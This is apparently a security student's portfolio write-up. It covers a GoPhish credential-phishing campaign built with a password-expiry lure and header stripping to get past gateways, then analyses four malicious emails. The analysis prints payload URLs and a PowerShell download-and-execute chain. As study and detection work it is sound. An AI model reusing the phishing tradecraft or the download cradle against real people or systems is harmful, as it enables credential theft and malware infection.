# Email Security & Phishing Analysis

I built a phishing campaign from scratch, then investigated real malicious email samples. Header spoofing, macro evasion, encrypted payloads. How attacks get built, and how they get caught.

---

## What's in here

**Offensive** — GoPhish on my machine, Outlook SMTP, credential harvesting campaign with a password-expiry pretext. Analyzed results from a 986-target campaign.

**Defensive** — Four malicious email samples dissected with oletools, pcode2code, msoffcrypto-crack, lnkinfo, and VirusTotal. Each one used a different evasion technique. I traced all of them back to their payloads.

---

## Part 1: Building the Phishing Campaign

### Infrastructure

GoPhish installed locally on macOS, configured with an Outlook SMTP sending profile. I stripped the default `X-Mailer: gophish` header because any half-decent email gateway catches that.



### Targets

10 employees imported via CSV. Finance, HR, IT, legal, marketing, sales, ops. Mixed departments to see whether role affects who clicks.



### The Email

Password expiry pretext. 24-hour deadline, IT Security Team branding, blue corporate header, personalized greeting with `{{.FirstName}}`. Urgency plus authority. That's about all it takes.





### Landing Page

Minimal credential form: email, current password, new password. Redirects to the real Outlook login after submission. The target doesn't notice anything.





### Launch

Template, landing page, sending profile, target groups. Scheduled and sent.







### Campaign Results (986 targets)

| Metric | Count | Rate |
|---|---|---|
| Emails Sent | 986 | 100% |
| Emails Opened | 496 | 50.3% |
| Links Clicked | 101 | 10.2% |
| Credentials Submitted | 7 | 0.7% |
| Reported as Phishing | 56 | 5.7% |

Half opened it. One in ten clicked. Seven people gave up their passwords. 56 reported it.



### 52 seconds

From email delivery to credential compromise for Amanda Kim. Sent at 12:40:22, captured at 12:41:14. She was on Windows XP with Firefox 3.6.6.



---

## Part 2: Investigating Malicious Emails

Four samples, each with a different trick. I went through them with oletools, VirusTotal, and the command line.

### Sample 1: Spoofed Microsoft Alert

Phishing email impersonating a Microsoft security notification. Headers told the whole story.



| Indicator | Value |
|---|---|
| From | `Microsoft account team <7khml@na7joxqphj.com>` |
| Return-Path | `bounce@rncrosoft.com` (typosquat) |
| Reply-To | `info@secaccinfoacesseesp.com` (attacker) |
| Originating IP | `89.144.5.13` |
| SPF | Fail |
| DKIM | None |
| DMARC | None |

Three different domains across From, Return-Path, and Reply-To. All auth checks failed. The Return-Path is `rncrosoft.com`, missing the "i" and swapping "m" for "rnc." Typosquatting the Microsoft domain.

### Sample 2: Template Injection

A .docx with 15 external relationships. Fourteen pointed to legitimate Sri Lankan government URLs. Good cover. The fifteenth was an `oleObject` fetching a remote RTF from a domain pretending to be the Central Bank of Sri Lanka.





| Attribute | Value |
|---|---|
| SHA-256 | `1270b4f47dc7e4cba22f3013adf1991923a71b7a2c76912e0e2130b63365a00f` |
| Malicious URL | `https://www-cbsl-gov-lk.dwnlld.info/6cc2e6e0/Profile.rtf` |
| Relationship Type | `oleObject` |
| VirusTotal | 14/97 flagged as malicious |

Ran the URL through VirusTotal. 14 vendors caught it. BitDefender, ESET, Kaspersky, Sophos, and Fortinet all tagged it as malware.



The payload isn't in the document itself. It gets pulled at runtime through the oleObject relationship, so static scanning doesn't see it.

### Sample 3: VBA Stomping

OLE Word document with macros, but oleid rated it **Medium** instead of Suspicious. That downgrade is what caught my attention.



The VBA source code had been stripped. The compiled p-code was still there. Office runs the p-code directly, so the macro executes fine, but tools that only read source code report nothing suspicious.

`pcode2code` decompiled the p-code. The actual payload: a downloader calling `URLDownloadToFileA` to fetch `https://0b3f1sk.me/a.exe`.

| Attribute | Value |
|---|---|
| MD5 | `32af49f05cb06aae511081fc6319a309` |
| Evasion | VBA Stomping |
| Payload URI | `https://0b3f1sk.me/a.exe` |
| API Call | `URLDownloadToFileA` |

### Sample 4: Encrypted Multi-Stage Chain

Five stages. Encrypted document to in-memory PowerShell execution.



The document was encrypted with `VelvetSweatshop`, which is Microsoft Office's default password. Office opens it silently without prompting. Email gateways that can't handle encrypted files pass it through untouched. I cracked it with `msoffcrypto-crack.py`.

oleid on the decrypted file: no macros, nothing flagged. But I unzipped the OOXML structure and found an OLE object sitting in `word/embeddings/`.



`oleobj` pulled out `RECH17321732.zip`. Inside: a Windows LNK shortcut. `lnkinfo` showed a PowerShell download cradle.



Full chain:

```
Encrypted .doc (VelvetSweatshop)
  → Decrypted OOXML
    → oleObject1.bin
      → RECH17321732.zip
        → RECH17321732.lnk
          → powershell -ExecutionPolicy Bypass
            → Invoke-WebRequest 'https://tafrihafashion.com/boondle.txt'
              → In-memory execution
```

| Attribute | Value |
|---|---|
| SHA-1 | `e4996e288eb062a19bf962fc83906975fded2627` |
| Password | `VelvetSweatshop` |
| Decrypted SHA-256 | `46ba26572dc4d45a91c2bb837d294a018a7700b65ebd4fe61555816e279db309` |
| OLE Object SHA-256 | `b0995dea179fe14788d4c3037130419280ecc47756f13c86bcc7c0b36f758757` |
| Extracted Payload | `RECH17321732.zip` → `RECH17321732.lnk` |
| PowerShell URI | `https://tafrihafashion.com/boondle.txt` |

Each layer on its own looked clean. Encryption blocked the gateway. The decrypted doc had no macros. The OLE object was a .bin file. The ZIP was a ZIP. You have to follow the whole chain or you miss it.

---

## Tools

| Tool | What for |
|---|---|
| GoPhish | Campaign setup, email delivery, credential capture, tracking |
| oleid | First-pass triage: format, macros, external relationships |
| olevba | VBA source extraction |
| oleobj | External relationships, embedded objects |
| pcode2code | P-code decompilation for VBA stomping detection |
| msoffcrypto-crack | Decrypting password-protected Office files |
| lnkinfo | Parsing Windows LNK shortcuts |
| VirusTotal | Hash/URL reputation, multi-engine detection |

---

## What I learned

A password-expiry email with no attachments and no malware got a 50% open rate and 10% click-through on 986 targets. Seven people entered their credentials. One went from email delivery to compromised in 52 seconds. That's the actual window a SOC team has.

On the investigation side, no two samples used the same trick. Template injection keeps the payload off the document entirely. VBA stomping gets past source-code scanners. Encrypting with the default Office password bypasses gateways that can't decrypt. And sample 4 buried its payload under five layers: encryption, OOXML, OLE object, ZIP, LNK.

The thing I keep coming back to: oleid said "no macros" on sample 4. If I'd stopped there, I would've missed everything underneath. The tools are good at answering the question you ask them. You still have to know which questions to ask next.
